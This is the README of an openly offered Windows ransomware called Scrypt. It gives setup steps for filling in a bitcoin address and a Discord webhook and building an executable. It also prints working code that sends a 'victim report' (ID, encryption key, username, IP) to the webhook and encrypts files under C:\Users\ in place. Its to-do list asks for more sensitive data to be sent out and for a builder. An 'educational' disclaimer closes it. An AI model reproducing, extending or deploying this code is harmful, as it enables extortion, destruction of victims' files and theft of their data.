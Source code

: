 <div>
  <h1 align="center">Scrypt</h1>
  <h3 align="center">Ransomware with Discord Integration</h3>
</div>

 <p align="center">
  <img width="660" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/ransomware.jpg?raw=true">
</p>

  Scrypt is a windows Ransomware with discord integration. After trying to find a reason to procrastinate a friend gave me the idea to speedrun making ransomware, so that I did. After around 5 hours I finished up Scrypt and this is the repo containing the full source code to the ransomware, the decrypter along with some notes on how it operates. What sets Scrypt aside from all the other Ransomware clones out there is its utilization of discord webhooks to send user reports.
  
<h3 align="center">Scrypt Attack Vectors</h4>
  Once you are hit by Scrypt you will instantly realize you are a victim. A giant screen warning the user (as shown below) will take up your entire screen, once you hit the continue button the window will become invisble so it can continue to run in the background. While I had wanted to use chacha20 for file encryption I ended up sticking to AES-128 due to my limited time.
 <p align="center">
  <img width="660" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/lockscreen.png?raw=true">
</p>
  
  Another feature of Scrypt is its easy report feature which gives you a detailed report of your victim, I used myself below as an example for how the data looks, this can be used to easily match client ID's.
 <p align="center">
  <img width="460" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/report.PNG?raw=true">
</p>

  Scrypt will also leave behind a nice little readme on the desktop just in case the client forgets any of his information. This will contain information such as your btc address, client, id and detailed steps to recovering there files. 
   <p align="center">
  <img width="460" height="300" src="https://github.com/backslash/ScryptRansomware/blob/master/images/note.PNG?raw=true">
</p>

<h3 align="center">Setup</h4>
  Setup is straight forward, run the following commands as listed here:
```
  pip install pyqt5
  pip install requests
  pip install pyinstaller
  pip install pycrypto
```
  Once you have all the dependencies installed go to your python file and modify this to include your information:
  ```
btcAdd = ""
email = ""
discordWebhook = ""
  ```
  After you have fully set this up head over to command prompt and run the following commands:
  ```
  cd "your folder path to scrypt"
  ```
  then run
  ```
  pyinstaller --onefile "Scrypt.py"
  ```
  Wait for it to finish building and thats about it for setup.  

<h3 align="center">Understanding the Code</h4>
Scrypt starts off with the flashing screen to grab the users attention however in the background the ransomware itself runs, it starts of by sending a message which just gives a detailed report of our user along with the unique id and seeded password.

`````
	def sendMessage(self):
		try:
			self.getUserDetails() #trys to retrieve information about the user
		except:
			pass
		data = {
				"embeds": [
					{
					   "title": "**__Victim Report__:**", #uses said datain the report 
						"description": f"```css\nUSERID: {self.randomId}``` ```css\nKEY: {self.encryptionPass}``` ```css\nUSERNAME: {self.userName}``` ```css\nIP: {self.ip}```",
						"color": 13959168,
						"thumbnail": {
						"url": "https://www.pngkit.com/png/full/168-1680567_69137579-pentagram-with-demon-baphomet-satanic-goat.png"
					},
						"author": {
							"name": "Scrypt",
							"icon_url": "https://i.imgur.com/F3j7z5K.png"
							}
					}
				]
			}
		r = requests.post(discordWebhook, json=data) #makes a post request to our webhook with given data
`````

 Next starts the file encryption, our ransomware goes through every file in the provided folder path, in this case being `C:\\Users\\` and then proceeds to get handles for each filepath which will be passed as an argument for when we want to encrypt our files.  
```
	def run(self):
		self.sendMessage() #---------| Calls our function to send our user report via post request to our webhook.
		for root, directories, files in os.walk(self.filePath): #We are now itterating through our directories
			for filename in files: #now we are getting all of our files
				filepath = os.path.join(root, filename) 
				for base in fileTypes:
					if base in filepath:
						threading.Thread(target=self.encryptFile, args=(filepath,)).start() #multithreading our file encryption 
		
		self.readMe() #Creating our read me document
```
Each file is opened in read binary mode which is then encrypted with our pycrypto library with proper padding, then we flush the file contents and write our new file. 
  
```
	def encryptFile(self, file):
		try:
			with open(file, 'rb') as infile:
				content = self.crypto.encrypt(pad(infile.read(),32))
				with open(file, "wb") as outfile:
					outfile.write(content)
					outfile.close()
		except:
			pass
```
<h3 align="center">To Do List</h4>
  Hello fellow developers, if you are interested in contributing to Scrypt I will happily accept pushes for new features or improvements to the current version, this was made in 5 hours so its got a few things that could for sure use improvement:
  - [ ] Improve File Handeling (Change Extenstion not hard to do os.rename())
  - [ ] Give the decrypter a user interface.
  - [ ] Speed up the encryption proccess
  - [ ] Send more data/sensitive data via webhook.  
  - [ ] Create a builder for Scrypt for easier generation
  - [ ] Change encryption to salsa20 or chacha20  

  
  
<h3 align="center">Legal Notice</h4>
  This is illegal if you use this without the consent of others, I am not accountable for anything you get into, this was just a speedrun to demonstrate how ransomware is made/looks. This is 100% educational. Please do not misuse this tool.

